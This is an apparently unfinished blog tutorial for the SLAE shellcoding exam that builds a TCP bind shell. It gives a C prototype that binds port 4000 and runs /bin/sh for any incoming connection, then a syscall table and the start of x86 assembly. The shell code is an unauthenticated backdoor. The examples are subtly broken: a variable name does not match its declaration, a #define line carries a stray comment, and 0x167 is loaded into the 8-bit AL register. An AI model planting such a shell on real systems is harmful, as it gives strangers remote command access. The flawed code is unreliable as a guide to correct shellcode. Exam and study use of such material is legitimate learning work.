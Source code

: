 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used, we can create bind shell code in C.  
After a bit of research, the simplest bind shell is following:
```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Compiled and run, we can confirm that bind shell is working.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)


## Syscalls ##

Based on prototype code above, we can conclude that following syscalls needs to be called in order to create bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and descriptions can be found in: unistd_32.h on following location: ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h```

```
Syscall                Dec   Hex
----------------------------------
#define __NR_socket    359   0x167
#define __NR_bind      361   0x169
#define __NR_listen    363   0x16B
#define __NR_accept4   364   0x16C
#define __NR_dup2      63    0x3F
#define __NR_execve    11    0xB
```

First we need to figure out which arguments are needed for each syscall.  
Let's start with socket call. Based on man 2 pages (```man 2 socket```) we can see the descripton of function and arguments it takes.

```
int socket(int domain, int type, int protocol);
// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
```

Arguments are passed via EAX, EBX, ECX, EDX, ESI, EDI registers.  
To have a clean start, registers need to be zero-out. Easiest way to do it (and avoid having null bytes in code) is by XOR register with itself.

```
xor eax, eax    ; Clear EAX 
xor ebx, ebx    ; Clear EBX
xor ecx, ecx    ; Clear ECX
xor edx, edx    ; Clear EDX
```

After that we need to pass syscall for socket in EAX register.

```mov al, 0x167 ; 359 (0x167) is the syscall for socket ```

Next, we need to pass arguments to ```socket(AF_INET, SOCK_STREAM, 6);``` function by placing arguments in registers:

```
mov bl, 2  ; domain = 2 (AF_INET/IPv4)
mov cl, 1  ; type = 1 (SOCK_STREAM/TCP)
mov dl, 6  ; protocol = 6 (IPPROTO_TCP)
int 0x80   ; syscall
```

.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

